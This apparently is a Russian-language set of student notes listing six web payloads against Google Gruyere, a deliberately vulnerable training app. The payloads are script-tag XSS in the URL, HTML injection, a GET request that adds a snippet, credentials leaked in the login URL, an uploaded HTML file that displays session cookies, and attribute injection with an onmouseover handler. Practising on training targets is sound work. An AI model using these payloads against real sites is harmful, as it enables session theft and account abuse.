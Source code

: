 # Payloads для gruyere

## Payload 1

При переходе по ссылке `https://https://google-gruyere.appspot.com/584100228911668795158296871158315456069/newaccount.gtl`. Параметр `newaccount.gtl` можно заменить на пейлоад `<script>alert('XSS')</script>` для вывода окна с надписью XSS

## Payload 2

При переходе по ссылке `https://https://google-gruyere.appspot.com/584100228911668795158296871158315456069/newaccount.gtl`. Параметр `newaccount.gtl` можно заменить на пейлоад `<h1>xss script</h1>` для на странице с надписью 
xss script

## Payload 3

Если изменить ссылку `https://google-gruyere.appspot.com/491477625358089430594825549379028845597/newsnippet2?snippet=snippet` на `https://google-gruyere.appspot.com/491477625358089430594825549379028845597/newsnippet2?snippet=update+snippet`, то добавится новый сниппет

## Payload 4

При регистрации с последующим входом, на странице Home в адресной строке видно имя пользователя и его пароль. `https://google-gruyere.appspot.com/442299778806942197550060258560642440457/login?uid=lolo&pw=123`

## Payload 5

При загрузке на сайт фала .html с кодом `<script>document.cookie = "user=John"</script> <script>alert(document.cookie)</script>` сайт показывает файлы куки `user=John; GRUYERE=105914550|lolo||author; GRUYERE_ID=442299778806942197550060258560642440457`

## Payload 6

В редактировании профиля в поле "цвет профиля" вставить red' onload='alert(1)' onmouseover='alert("2"), то  на домашней странице при наведении имя пользователя выводится окно со значением 2


